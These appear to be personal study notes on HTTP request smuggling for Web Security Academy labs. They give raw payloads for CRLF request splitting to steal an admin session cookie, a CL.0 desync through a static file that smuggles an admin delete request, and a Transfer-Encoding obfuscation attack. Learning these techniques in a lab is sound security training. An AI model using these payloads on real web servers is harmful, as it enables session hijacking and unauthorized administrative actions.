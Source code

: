 ```

POST / HTTP/1.1
Host: 0a12003e0324d3d08115ac1a00a5001d.web-security-academy.net
Cookie: session=LnqD80cuKEGiqyPBvz95w9eS3RapFJrP
Content-Length: 810

search=x
------------------(CRLF request splitting)
add a new header with the inspector foo:
bar\r\n
\r\n
GET /x HTTP/1.1\r\n
Host: 0a1800e704914121837178e2006900c2.web-security-academy.net\r\n
Cookie: session=SvlgmHX4gv3pEkMprFcz1XmYYBNppKbO
(make sure cookie is the same, response que to steal admin cookie)


```


CL.0
```
2 GET Requests
Change the first one to a post
Both to http/1.1
fist one with connection: keep-alive
first one finishing with

GET /404 HTTP/1.1
Foo: x

if 404 vulnerable when sent both in a group as single connection

Use static files such as images to cause a desync(first tab response contains the resources, second the admin or 404):

POST /resources/images/blog.svg HTTP/1.1 
Host: YOUR-LAB-ID.web-security-academy.net C
ookie: session=YOUR-SESSION-COOKIE 
Connection: keep-alive 
Content-Length: CORRECT 

GET /admin/delete?username=carlos HTTP/1.1 
Foo: x
```
![[Pasted image 20240315003343.png]]

Transfer-Encoding ofuscation
```
POST / HTTP/1.1
Content-length: 4 (do not update automatically in repeater)
Transfer-Encoding: chunked 
Transfer-encoding: cow 

5c 
GPOST / HTTP/1.1 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 15 

x=1 
0


```
